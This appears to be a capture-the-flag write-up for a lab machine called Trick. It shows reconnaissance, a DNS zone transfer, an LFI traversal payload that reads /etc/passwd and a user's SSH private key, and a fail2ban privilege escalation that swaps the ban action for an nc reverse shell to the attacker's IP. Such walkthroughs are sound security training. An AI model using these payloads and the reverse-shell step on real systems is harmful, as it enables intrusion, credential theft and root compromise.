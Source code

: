 # TRICK

### User flag

First the usual nmap scan which found 4 open ports

```shell
[dasor@archlinux]$ nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.166
 PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
25/tcp open  smtp    syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
...
[dasor@archlinux]$ nmap -sCV -p22,80,53,25 -oN targeted 10.10.11.143
PORT   STATE  SERVICE VERSION
22/tcp open   ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
25/tcp closed smtp
53/tcp closed domain
80/tcp open   http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
```

At first I inspected the webpage but did not found anything interesting and continued enumerating smtp. (I also added the machine as trick.htb in my etc/hosts as usual)

```shell
[dasor@archlinux]$ nmap -p25 --script smtp-commands -oN smtp 10.10.11.166
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
CHUNKING
...
[dasor@archlinux]$ nmap -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY} -oN smtpusers trick.htb
PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users:
|_  Couldn't find any accounts
...
[dasor@archlinux]$ nmap -p25 --script smtp-open-relay 10.10.11.166
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
```

Another rabbit hole I guess. Next I started enumerating port 53 dns as my last resource. I used dig and at first I did not find anything important until I tried with zone transfer

```shell
[dasor@archlinux]$ dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.4 <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800

```

Interesting, two subdomains to add to the etc/host. The root one is useless since it is the same page. On the other hand the preprod-payroll has a login page. I tried a lot of sql injections, LFI and fuzzed the site but nothing came up. At this point I thought to fuzz some more subdirectories in the lines of preprod-xxxx.

```shell
[dasor@archlinux]$ ffuf -w /mnt/home/dasor/wordlist/directory-list-2.3-big.txt:FUZZ -u http://trick.htb/ -H 'Host: preprod-FUZZ.trick.htb' -v -fs 5480

[Status: 200, Size: 9660, Words: 3007, Lines: 179]
| URL | http://trick.htb/
    * FUZZ: marketing

```

after again adding the domain to the /etc/hosts file I found a pretty "interesting" webpage. When you click in any section the url changes to index.php**?page=about.html** or to whatever section you selected. This seemed as a possible LFI, first I tried with the usual ../../../../etc/passwd but it gave me a blank page. Then I decided to fuzz for LFI.

```shell
[dasor@archlinux]$ ffuf -w /mnt/home/dasor/wordlist/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -v -fs 0

[Status: 200, Size: 2351, Words: 28, Lines: 42]
| URL | http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
    * FUZZ: ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd

```

Once I knew this I read the passwd file and found a user called michael so I tried to read his .ssh directory, and it worked! I copied his id_rsa to my machine and got the user flag

### Root Flag

Before continuing I would like to point out this was the easiest root flag ever. Once in the machine I execute the usual sudo -l to see if I had some privilege and got This

```shell
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

fail2ban is an app I have heard a lot about and what it does is just ban your IP if you fail many times trying to login to ssh (as the name points out). I just searched on google fail2ban privilege escalation and found lots of articles. Basicly if you can edit the file at /etc/fail2ban/action.d/iptables-multiport.conf you can chnage the command that gets executed **by root** when he bans someone.

```shell
michael@trick:/etc/fail2ban/action.d$ ls -la
total 288
drwxrwx--- 2 root security  4096 Jul 14 17:36 .
drwxr-xr-x 6 root root      4096 Jul 14 17:36 ..
-rw-r--r-- 1 root root      1420 Jul 14 17:36 iptables-multiport.conf
```

Even thought the file owner is root and we cannot edit it, we can replace the file because the user michael is in the security group (you can check it using the command groups) and has all to privileges in the folder.

```shell
michael@trick:~$ cp /etc/fail2ban/action.d/iptables-multiport.conf .
michael@trick:~$ vim iptables-multiport.conf
... (we change the action ban command to a reverse shell)
actionban =  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.83 4242 >/tmp/f
...
michael@trick:~$ mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? y
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

once that is done we ban ourselves by login incorrectly to ssh a lot of times and we will get root. However you have to be quick since the config file changes to the default one after some time.

```shell
[dasor@archlinux ~]$ nc -lvp 4242
Connection from 10.10.11.166:49380
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```
